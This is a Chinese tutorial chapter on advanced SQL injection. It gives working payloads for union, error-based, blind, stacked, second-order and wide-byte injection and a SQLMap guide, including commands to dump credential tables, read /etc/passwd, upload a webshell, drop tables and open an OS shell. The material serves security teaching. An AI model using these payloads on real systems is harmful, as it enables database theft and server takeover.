






# 第15章 SQL注入进阶：实战篇

> **难度等级：🟡 中等级**
>
> **预计学习时间：180分钟**
>
> **本章看点：联合查询深入、报错注入详解、布尔盲注、时间盲注、堆叠注入、二次注入、宽字节注入、Cookie/UA/Referer注入、SQLMap从入门到精通、各数据库注入技巧**
>
> ::: tip 说明
> 上一章我们学了SQL注入的基础，
> 这一章我们来进阶。
>
> 基础篇我们讲了最常用的联合查询注入，
> 这一章，
> 我们来讲更多类型的注入：
> 报错注入、盲注、堆叠注入、二次注入、宽字节注入...
>
> 还有各种位置的注入：
> Cookie注入、User-Agent注入、Referer注入...
>
> 最后，
> 我们来讲SQLMap神器的使用，
> 从入门到精通，
> 让你效率提升10倍。
>
> 这一章内容比较多，
> 耐心看，
> 都是干货。
> :::

---

## 📖 本章概述

::: tip 写在前面
很多新手学完基础注入之后，
就觉得SQL注入也就那么回事，
不就是union select吗？

其实不是。
SQL注入的水很深，
联合查询只是最基础的一种。

真实环境中，
你会遇到各种各样的情况：
- 页面不显示查询结果怎么办？
- 连报错都不显示怎么办？
- 有WAF过滤怎么办？
- 注入点不在GET参数里怎么办？
- 数据库不是MySQL怎么办？

这些问题，
这一章都会给你答案。

学完这一章，
你对SQL注入的理解会再上一个台阶。
准备好了吗？
让我们开始！
:::

---

## 🎯 学习目标

读完本章，你将能够：

- [x] 深入掌握联合查询注入的各种技巧
- [x] 熟练掌握报错注入的三种方法
- [x] 理解布尔盲注和时间盲注的原理
- [x] 知道什么是堆叠注入、二次注入、宽字节注入
- [x] 会在Cookie、User-Agent、Referer等位置注入
- [x] 熟练使用SQLMap进行注入
- [x] 了解不同数据库的注入差异

---

## 🔍 联合查询注入深入

### 1.1 显示位的利用技巧

#### 多个显示位怎么用？

如果有多个显示位，
我们可以同时查多个数据。
比如有3个显示位：

```sql
?id=-1 UNION SELECT user(), database(), version()-- 
```

这样一次就能查到用户名、数据库名、版本。

#### 只有一个显示位怎么办？

如果只有一个显示位，
也没关系，
用`group_concat()`把多行拼成一行就行。

或者用`concat()`把多个数据拼在一起。

```sql
?id=-1 UNION SELECT concat(user(), 0x7e, database(), 0x7e, version())-- 
```

`0x7e`是`~`的十六进制，
用来分隔不同的数据。

#### 显示位是数字怎么办？

有时候显示位是数字类型的，
直接放字符串会报错。
这时候可以用十六进制编码，
或者用`cast()`函数转换类型。

```sql
-- 用十六进制
?id=-1 UNION SELECT 0x61646d696e-- 

-- 用cast转换
?id=-1 UNION SELECT cast(database() as char)-- 
```

**图15-1 联合查询注入原理图**



### 1.2 跨库注入

如果当前用户权限够大，
我们不仅可以查当前数据库，
还可以查其他数据库。

```sql
-- 查所有数据库
?id=-1 UNION SELECT group_concat(schema_name) 
FROM information_schema.schemata-- 

-- 查指定数据库的表
?id=-1 UNION SELECT group_concat(table_name) 
FROM information_schema.tables 
WHERE table_schema='mysql'-- 

-- 查指定表的列
?id=-1 UNION SELECT group_concat(column_name) 
FROM information_schema.columns 
WHERE table_name='user' 
AND table_schema='mysql'-- 

-- 查数据
?id=-1 UNION SELECT group_concat(user,0x3a,password) 
FROM mysql.user-- 
```

如果是root权限，
还可以直接读文件、写文件，
甚至拿服务器权限。

### 1.3 LIMIT的使用

当数据太多，
`group_concat()`显示不全的时候，
可以用`LIMIT`一条一条地看。

```sql
-- 第一条
?id=-1 UNION SELECT username, password 
FROM users LIMIT 0,1-- 

-- 第二条
?id=-1 UNION SELECT username, password 
FROM users LIMIT 1,1-- 

-- 第三条
?id=-1 UNION SELECT username, password 
FROM users LIMIT 2,1-- 
```

`LIMIT offset, count`，
offset是偏移量，从0开始，
count是取几条。

---

## 💥 报错注入详解

### 2.1 报错注入的原理

报错注入的原理：
**构造特殊的SQL语句，
让数据库执行时报错，
并把我们想要的数据放在报错信息里返回。**

适用场景：
- 页面不显示查询结果
- 但是会显示数据库的报错信息

> 💡 **深入理解：报错注入为什么能工作？**
>
> 很多同学觉得报错注入很神奇：
> "我明明写的是一个语法错误，
> 为什么数据库还'好心'地把数据告诉我？"
>
> 这其实利用了数据库的一个设计特性：
> **报错信息里会包含导致错误的那个表达式的值。**
>
> 举个例子，
> `extractvalue(1, 'abc')` 这个函数调用：
> - 第二个参数应该是合法的XPATH表达式（如 `/root/item`）
> - 但你故意传了一个非法值 `'abc'`
> - MySQL在执行时报错了，报错信息是：
>   `XPATH syntax error: 'abc'`
>
> **重点来了：报错信息里包含了你的输入 `'abc'`！**
>
> 现在，如果把 `'abc'` 换成一段SQL子查询：
> ```
> extractvalue(1, concat(0x7e, (SELECT database()), 0x7e))
> ```
> 数据库执行过程：
> 1. 先执行子查询 `SELECT database()`，得到结果比如 `'dvwa'`
> 2. concat拼接得到 `'~dvwa~'`
> 3. 把这个结果作为XPATH路径传给 extractvalue
> 4. `'~dvwa~'` 不是合法的XPATH，触发报错
> 5. 报错信息是：`XPATH syntax error: '~dvwa~'`
>
> 看！数据库名 `dvwa` 出现在了报错信息中！
>
> 这就是报错注入的精髓：
> **你借数据库的"报错机制"这种管道，
> 把敏感数据"偷偷带出来"。**
>
> 数据库以为自己只是在"汇报错误"，
> 实际上它已经把你想要的数据暴露出来了。
>
> 就像一个间谍把情报藏在错误报告里发出去，
> 审查的人以为这只是一个错误报告，
> 但实际上机密信息就藏在里面。

常用的报错函数有三个：
1. `extractvalue()`
2. `updatexml()`
3. `floor()` + `count()` + `group by`

**图15-2 报错注入触发机制图**



### 2.2 extractvalue()报错注入

`extractvalue(XML_document, XPath_string)`
是MySQL用来解析XML的函数。

第一个参数是XML文档，
第二个参数是XPATH路径。

如果第二个参数格式不对，
就会报错，
并且把我们拼接的内容显示在报错信息里。

```sql
-- 查数据库名
?id=1 and extractvalue(1, concat(0x7e, database(), 0x7e))-- 

-- 查表名
?id=1 and extractvalue(1, 
    concat(0x7e, 
    (select group_concat(table_name) 
     from information_schema.tables 
     where table_schema=database()),
    0x7e))-- 

-- 查列名
?id=1 and extractvalue(1, 
    concat(0x7e, 
    (select group_concat(column_name) 
     from information_schema.columns 
     where table_name='users'),
    0x7e))-- 

-- 查数据
?id=1 and extractvalue(1, 
    concat(0x7e, 
    (select group_concat(username,0x3a,password) 
     from users),
    0x7e))-- 
```

> ⚠️ 注意：
> `extractvalue()`最多只能显示32个字符。
> 如果数据太长，
> 需要用`substring()`截取，
> 分段查看。

```sql
-- 截取前30个字符
?id=1 and extractvalue(1, 
    concat(0x7e, 
    substring((select group_concat(username,0x3a,password) from users),1,30),
    0x7e))-- 

-- 截取30-60个字符
?id=1 and extractvalue(1, 
    concat(0x7e, 
    substring((select group_concat(username,0x3a,password) from users),31,30),
    0x7e))-- 
```

### 2.3 updatexml()报错注入

`updatexml()`和`extractvalue()`类似，
也是XML相关的函数。

`updatexml(XML_document, XPath_string, new_value)`
用第三个参数替换第一个参数中符合第二个参数XPATH路径的内容。

同样，
第二个参数格式不对就会报错。

```sql
-- 查数据库名
?id=1 and updatexml(1, concat(0x7e, database(), 0x7e), 1)-- 

-- 查表名
?id=1 and updatexml(1, 
    concat(0x7e, 
    (select group_concat(table_name) 
     from information_schema.tables 
     where table_schema=database()),
    0x7e), 1)-- 
```

用法和`extractvalue()`几乎一样，
也是最多显示32个字符，
太长了需要截取。

### 2.4 floor()报错注入

`floor()`报错注入，
也叫"双查询注入"，
原理比较复杂，
是利用`count()`、`group by`、`floor()`和`rand()`的组合来触发报错。

原理大概是：
当`group by`和`rand()`一起使用时，
如果`rand()`在分组计算时多次执行得到不同结果，
就会导致主键冲突，从而报错。

```sql
?id=1 and (select 1 from 
    (select count(*), 
    concat(database(), floor(rand(0)*2)) x 
    from information_schema.tables 
    group by x) a)-- 
```

报错信息里会包含数据库名。

这个方法比较复杂，
而且不太稳定，
知道有这么个东西就行，
实际用得不多。

---

## 👁️‍🗨️ 盲注详解

### 3.1 什么是盲注？

**盲注，就是"盲目"的注入。**

页面不显示查询结果，
也不显示报错信息，
你看不到直接的结果，
只能通过页面的细微变化来判断。

盲注分为两种：
- **布尔盲注**：页面有"真"和"假"两种状态
- **时间盲注**：通过响应时间来判断

盲注的效率很低，
手工做非常累，
一般都是用工具或者写脚本。
但是原理一定要懂。

### 3.2 布尔盲注

#### 原理

布尔盲注的原理：
**构造SQL语句，
通过页面返回的"真"或"假"来判断条件是否成立。**

比如：
```
?id=1 and 1=1  → 页面正常（真）
?id=1 and 1=2  → 页面异常（假）
```

页面有两种状态，
我们就可以利用这一点，
一个字符一个字符地猜数据。

#### 猜数据库名长度

先猜数据库名的长度：

```sql
-- 长度大于5吗？
?id=1 and length(database()) > 5-- 

-- 长度大于10吗？
?id=1 and length(database()) > 10-- 
```

用二分法，
很快就能猜出长度。

假设数据库名长度是8。

#### 猜数据库名的第一个字符

然后一个字符一个字符地猜。

用`ascii(substring(database(), 1, 1))`
取第一个字符的ASCII码。

```sql
-- 第一个字符ASCII码大于97吗？（97是'a'）
?id=1 and ascii(substring(database(),1,1)) > 97-- 

-- 大于110吗？（110是'n'）
?id=1 and ascii(substring(database(),1,1)) > 110-- 
```

用二分法猜，
最后得到第一个字符的ASCII码，
转成字符就行。

#### 猜完整的数据库名

第一个字符猜出来了，
再猜第二个、第三个...
直到猜完所有字符。

```sql
-- 第二个字符
?id=1 and ascii(substring(database(),2,1)) > 97-- 

-- 第三个字符
?id=1 and ascii(substring(database(),3,1)) > 97-- 
```

以此类推，
最后得到完整的数据库名。

#### 猜表名、列名、数据

猜出数据库名之后，
用同样的方法猜表名、列名、数据。

都是一个字符一个字符地猜。

你可以想象一下，
手工猜有多慢。
一个数据库名可能就要猜几十次，
更别说表名、列名、数据了。

所以布尔盲注手工做不现实，
都是用工具或者写脚本。

**图15-3 布尔盲注二分法示意图**



### 3.3 时间盲注

#### 原理

如果连页面真假都没有呢？
不管输入什么，
页面都一样。
怎么办？

用**时间盲注**。

时间盲注的原理：
**用`sleep()`函数让数据库延迟执行，
通过观察页面响应时间来判断条件是否成立。**

比如：
```sql
?id=1 and if(1=1, sleep(5), 1)-- 
```
如果`1=1`成立，
就执行`sleep(5)`，
页面延迟5秒返回。

```sql
?id=1 and if(1=2, sleep(5), 1)-- 
```
如果`1=2`不成立，
就不延迟，页面秒回。

这样，
我们就能通过响应时间来判断真假了。

#### 猜数据库名

方法和布尔盲注类似，
只是判断条件从"页面是否正常"
变成了"是否延迟"。

```sql
-- 数据库名长度大于5吗？
?id=1 and if(length(database())>5, sleep(5), 1)-- 

-- 第一个字符ASCII码大于97吗？
?id=1 and if(ascii(substring(database(),1,1))>97, sleep(5), 1)-- 
```

时间盲注比布尔盲注更慢，
因为每次都要等几秒。
但是适用场景更广。

#### 其他延迟函数

除了`sleep()`，
还有其他方法可以造成延迟：

```sql
-- BENCHMARK()函数
?id=1 and if(1=1, BENCHMARK(10000000, MD5(1)), 1)-- 

-- 笛卡尔积（大量查询造成延迟）
?id=1 and if(1=1, (SELECT count(*) FROM information_schema.tables A, information_schema.tables B), 1)-- 
```

`sleep()`最常用，
也最稳定。

**图15-4 时间盲注延迟判断图**



---

## 📚 其他注入类型

### 4.1 堆叠注入

#### 什么是堆叠注入？

**堆叠注入，就是一次执行多条SQL语句。**

正常情况下，
一次只能执行一条SQL。
但是如果支持多语句执行，
我们就可以用分号`;`分隔，
一次执行多条。

比如：
```sql
?id=1; DROP TABLE users-- 
```

这样就能删除表了，
非常危险。

#### 堆叠注入的条件

堆叠注入需要满足：
- 数据库支持多语句执行
- 程序调用的数据库驱动支持多语句

MySQL的话，
如果用的是`mysql_query()`，
就不支持多语句；
如果用的是`mysqli_multi_query()`，
就支持。

MSSQL默认就支持堆叠注入。

> 💡 **深入理解：为什么 mysql_query() 不支持堆叠注入？**
>
> 这涉及到数据库驱动的安全设计。
>
> PHP的 `mysql_query()` 函数设计时就刻意做了限制：
> **每次调用只执行一条SQL语句。**
>
> 即使你传了 `SELECT 1; DROP TABLE users;--`，
> 它也只执行第一个分号之前的 `SELECT 1`，
> 后面的全都忽略不执行。
>
> 为什么这样设计？
> 因为 `mysql_query()` 是早期PHP的函数（PHP4时代），
> 那时候开发者的安全意识已经提高了，
> MySQL官方故意在驱动层面做了这个限制，
> 就是为了防止"一条注入语句就把整个数据库删掉"这种灾难。
>
> 而 `mysqli_multi_query()` 是后来才加入的，
> 它的设计目标就是支持多语句执行
> （用于执行数据库迁移脚本、批量操作等合法需求）。
> 但如果开发者错误地把用户输入传给了 `mysqli_multi_query()`，
> 那堆叠注入就成了可能。
>
> **所以堆叠注入是否可行，本质取决于：
> PHP代码用了哪个函数来执行SQL语句。**
>
> 这条原理也适用于其他语言：
> - Java JDBC → 默认支持多语句（Statement）
> - Python pymysql → 默认不支持多语句
> - Node.js mysql → 默认不支持，需设置 multipleStatements: true

#### 堆叠注入能做什么？

堆叠注入可以执行任意SQL语句，
比如：
- 增删改查
- 创建删除数据库、表
- 读写文件
- 甚至执行系统命令（某些情况下）

但是堆叠注入也有限制：
- 一般只能执行到第一条有结果的语句
- 后面的语句执行了但是看不到结果
- 适合用来做破坏性操作或者写数据

### 4.2 二次注入

#### 什么是二次注入？

**二次注入，就是先把注入语句存到数据库里，
然后在另一个地方取出来执行的时候触发注入。**

为什么叫"二次"？
因为第一次只是存储，
第二次取出来用的时候才触发。

#### 原理

举个例子：
用户注册的时候，
用户名输入`admin'-- `。
注册的时候可能做了过滤，
或者直接存进去了，没报错。

然后，
管理员后台查看用户列表的时候，
把这个用户名取出来，
拼接到SQL语句里查询，
这时候就触发注入了。

因为第一次插入的时候没有触发，
第二次查询的时候才触发，
所以叫二次注入。

#### 为什么难发现？

二次注入很难发现，
因为：
1. 输入点可能有过滤，看着很安全
2. 注入点不在输入的地方，而在读取的地方
3. 可能隔了很久才触发
4. 测试的时候很难覆盖到所有场景

#### 怎么找二次注入？

找二次注入需要思路：
- 哪些地方会把用户输入存到数据库？
- 哪些地方会把存进去的数据取出来用？
- 取出来用的时候有没有做过滤？

比如：
- 注册用户名 → 后台查看用户
- 发表评论 → 后台审核评论
- 修改个人资料 → 管理员查看资料

这些都可能有二次注入。

**图15-5 二次注入流程图**



### 4.3 宽字节注入

#### 什么是宽字节注入？

宽字节注入，
是利用字符编码的问题来绕过过滤的一种注入方式。

#### 原理

当网站使用GBK等宽字节编码时，
如果程序用`addslashes()`或者`magic_quotes_gpc`
来过滤单引号（把`'`转义成`\'`），
我们可以在单引号前面加一个`%df`，
让`%df\`变成一个宽字符，
这样单引号就逃出来了。

具体过程：
1. 我们输入：`%df'`
2. 程序过滤，把`'`变成`\'`，变成：`%df\'`
3. GBK编码中，`%df%5c`（`\`是`%5c`）是一个宽字符"運"
4. 所以`%df\'`就变成了：`運'`
5. 单引号就逃出来了！

#### 利用方式

```sql
-- 正常情况下，单引号会被转义
?id=1' → 1\' → 报错或者不行

-- 加个%df试试
?id=1%df' and 1=1-- 
```

这样就能绕过`addslashes()`的过滤了。

#### 条件

宽字节注入需要满足：
1. 数据库使用GBK等宽字节编码
2. 程序使用了`addslashes()`之类的转义
3. PHP的字符集和数据库的字符集不一致

现在UTF-8越来越流行，
宽字节注入越来越少了，
但是老系统还是可能遇到。

> 💡 **深入理解：宽字节注入的本质——字符编码"碰撞"**
>
> 宽字节注入表面看起来像个魔术：加个 `%df` 就让单引号逃逸了。
> 但它的本质是**字符编码的"碰撞"问题**。
>
> 要理解这个，先搞清楚两个关键信息：
>
> **1. addslashes() 做了什么？**
> 它把单引号 `'` 前面加个反斜线 `\`，变成 `\'`。
> 在数据库里 `\'` 被解释为"一个字面意义上的单引号字符"，
> 而不是"SQL字符串的结束标记"。
>
> 在字节层面：`'` = `0x27`，`\` = `0x5c`
> 所以 `\'` = `0x5c 0x27`
>
> **2. GBK编码怎么解析字节？**
> GBK是"可变长度"编码：
> - ASCII字符（0x00-0x7F）：占1个字节
> - 汉字等（0x81-0xFE）：占2个字节，第一个字节在高位，第二个字节是"尾巴"
>
> **碰撞来了：**
> `%df` 的字节是 `0xDF`，它在GBK里是"双字节字符的第一个字节"。
> `\` 的字节是 `0x5C`，它在GBK里可以当"双字节字符的第二个字节尾巴"。
>
> 所以 `0xDF 0x5C` 在GBK眼里是一个完整的汉字——"運"（读yùn）！
>
> ```
> 攻击者输入：    %df'          (0xDF 0x27)
> addslashes后：  %df\'         (0xDF 0x5C 0x27)
> GBK解析：       運'           (0xDF5C 0x27)
>                              ↑ 吃掉了反斜线！单引号自由了！
> ```
>
> **根本原因：**
> 两个系统用了不同的"视角"看同一段数据。
> - PHP用了ASCII视角：把每个字节独立看，`0xDF`就是`0xDF`
> - MySQL用了GBK视角：`0xDF`开头就要和下一个字节配对
>
> 这种编码之间的"理解差异"就是宽字节注入的根源。
>
> **为什么UTF-8不那么容易？**
> 因为UTF-8的设计更严谨。
> `0x5C`（反斜线）在UTF-8里永远只表示自己，
> 不会和前面的字节组合成新字符。
> 所以UTF-8下，`%df%5c` 就是两个无效字节，不会"吃掉"反斜线。
>
> 理解了这个本质，你就明白了：
> 宽字节注入不是GBK的"bug"，而是**PHP和MySQL用了不同编码导致的"翻译错误"**。

**图15-6 宽字节注入原理图**



---

## 📍 各种位置的注入

### 5.1 GET注入

最常见的注入，
参数在URL的问号后面。

```
http://example.com/index.php?id=1
```

这个我们已经讲得很多了。

### 5.2 POST注入

参数在POST请求体里，
比如表单提交。

判断方法和GET注入一样，
只是参数的位置不一样。

可以用BurpSuite抓包，
在POST参数里加单引号测试。

或者用hackbar、
浏览器插件之类的工具。

### 5.3 Cookie注入

注入点在Cookie里。

有些网站用Cookie传参数，
比如记住登录状态、
用户偏好设置之类的。

这些参数如果被带入数据库查询，
就可能有注入。

怎么测试？
用浏览器的开发者工具，
修改Cookie值，
加单引号试试。

或者用BurpSuite抓包修改。

注入方法和GET/POST一样，
只是位置在Cookie头里。

### 5.4 User-Agent注入

注入点在`User-Agent`请求头里。

有些网站会记录访客的浏览器信息，
把User-Agent存到数据库里。
如果处理不当，
就可能有注入。

测试方法：
修改User-Agent，
加个单引号，
看页面会不会报错。

有些网站的访问统计功能，
经常有这种注入。

### 5.5 Referer注入

注入点在`Referer`请求头里。

和User-Agent注入类似，
有些网站会记录访问来源，
把Referer存到数据库里。
如果处理不当，
就有注入。

### 5.6 X-Forwarded-For注入

注入点在`X-Forwarded-For`请求头里。

`X-Forwarded-For`（XFF）头
通常用来传递客户端的真实IP。
如果网站用这个头来记录访客IP，
并且直接带入数据库，
就可能有注入。

测试方法：
在请求头里加：
```
X-Forwarded-For: 1.1.1.1'
```
看看会不会报错。

### 5.7 其他HTTP头注入

理论上，
任何用户可控的HTTP头
都可能有注入，
只要它被带入数据库查询了。

比如：
- `X-Real-IP`
- `Host`头
- 各种自定义头

所以测试的时候，
不要只测GET和POST参数，
各种头也要测一测。

### 5.8 JSON注入

现在很多网站用JSON格式传数据，
特别是前后端分离的网站。

比如POST请求体是：
```json
{"username": "admin", "password": "123456"}
```

如果JSON里的参数被带入数据库，
也可能有注入。

测试方法和普通注入一样，
只是数据格式是JSON。
在参数值里加单引号试试。

### 5.9 XML注入

有些网站用XML格式传数据，
比如一些老的WebService接口。

和JSON注入类似，
在XML的参数值里注入。

---

## 🛠️ SQLMap从入门到精通

### 6.1 什么是SQLMap？

**SQLMap，是最强大的SQL注入工具，没有之一。**

它是一个开源的自动化SQL注入工具，
功能非常强大：
- 支持各种数据库（MySQL、MSSQL、Oracle、PostgreSQL...）
- 支持各种注入类型（联合、报错、盲注、堆叠...）
- 支持各种位置（GET、POST、Cookie、Header...）
- 可以自动拖库
- 可以读文件、写文件
- 可以执行系统命令
- 可以提权
- ...

总之，
SQLMap是红队必备神器。

Kali Linux里自带了SQLMap，
不用自己装。

### 6.2 SQLMap基本用法

#### 最简单的使用

```bash
# 检测一个URL是否有注入
sqlmap -u "http://example.com/index.php?id=1"
```

`-u`指定目标URL。

如果有注入，
SQLMap会自动检测出来，
并且告诉你是什么类型的注入。

#### 指定参数

如果URL有多个参数，
想指定测哪个参数，
用`-p`：

```bash
sqlmap -u "http://example.com/index.php?id=1&cat=2" -p id
```

这样就只测`id`参数。

#### POST注入

测POST参数的话，
用`--data`指定POST数据：

```bash
sqlmap -u "http://example.com/login.php" --data "username=admin&password=123"
```

#### Cookie注入

测Cookie的话，
用`--cookie`：

```bash
sqlmap -u "http://example.com/index.php" --cookie "id=1" -p id
```

#### 其他Header注入

测其他HTTP头的话，
可以用`--headers`，
或者直接用`-r`加载请求包。

```bash
# 指定User-Agent
sqlmap -u "http://example.com/" --headers "User-Agent: test*" -p "User-Agent"

# 从文件加载请求包
sqlmap -r request.txt
```

`-r`是个很常用的参数，
可以把BurpSuite抓到的请求包存成文件，
然后用SQLMap加载。
非常方便。

### 6.3 常用功能

#### 查数据库

```bash
# 查所有数据库
sqlmap -u "http://example.com/index.php?id=1" --dbs

# 查当前数据库
sqlmap -u "http://example.com/index.php?id=1" --current-db
```

#### 查表

```bash
# 查指定数据库里的表
sqlmap -u "http://example.com/index.php?id=1" -D testdb --tables
```

`-D`指定数据库。

#### 查列

```bash
# 查指定表里的列
sqlmap -u "http://example.com/index.php?id=1" -D testdb -T users --columns
```

`-T`指定表名。

#### 查数据（拖库）

```bash
# 查指定表的数据
sqlmap -u "http://example.com/index.php?id=1" -D testdb -T users --dump

# 只查指定列
sqlmap -u "http://example.com/index.php?id=1" -D testdb -T users -C username,password --dump
```

`--dump`就是导出数据。
SQLMap会把数据存成CSV文件，
方便查看。

#### 查当前用户

```bash
sqlmap -u "http://example.com/index.php?id=1" --current-user
```

#### 查权限

```bash
# 是否是DBA
sqlmap -u "http://example.com/index.php?id=1" --is-dba

# 列出所有用户
sqlmap -u "http://example.com/index.php?id=1" --users

# 列出用户权限
sqlmap -u "http://example.com/index.php?id=1" --privileges
```

### 6.4 高级功能

#### 读文件

如果数据库权限够大，
可以读取服务器上的文件：

```bash
sqlmap -u "http://example.com/index.php?id=1" --file-read "/etc/passwd"
```

#### 写文件

也可以往服务器写文件，
比如写Webshell：

```bash
sqlmap -u "http://example.com/index.php?id=1" --file-write "/path/to/shell.php" --file-dest "/var/www/html/shell.php"
```

`--file-write`是本地的文件，
`--file-dest`是目标服务器上的路径。

#### 执行系统命令

如果权限够，
还可以执行系统命令：

```bash
# 执行命令
sqlmap -u "http://example.com/index.php?id=1" --os-shell

# 或者
sqlmap -u "http://example.com/index.php?id=1" --os-cmd "whoami"
```

`--os-shell`会给你一个交互式的Shell，
就像连上去了一样。

#### SQL Shell

还可以直接进入SQL交互模式：

```bash
sqlmap -u "http://example.com/index.php?id=1" --sql-shell
```

然后可以直接执行SQL语句。

### 6.5 常用参数汇总

| 参数 | 作用 |
|------|------|
| `-u` | 指定目标URL |
| `-r` | 从文件加载请求包 |
| `-p` | 指定测试参数 |
| `--data` | POST数据 |
| `--cookie` | Cookie |
| `--headers` | 自定义请求头 |
| `--dbs` | 列所有数据库 |
| `-D` | 指定数据库 |
| `--tables` | 列所有表 |
| `-T` | 指定表 |
| `--columns` | 列所有列 |
| `-C` | 指定列 |
| `--dump` | 导出数据 |
| `--current-db` | 当前数据库 |
| `--current-user` | 当前用户 |
| `--is-dba` | 是否是DBA |
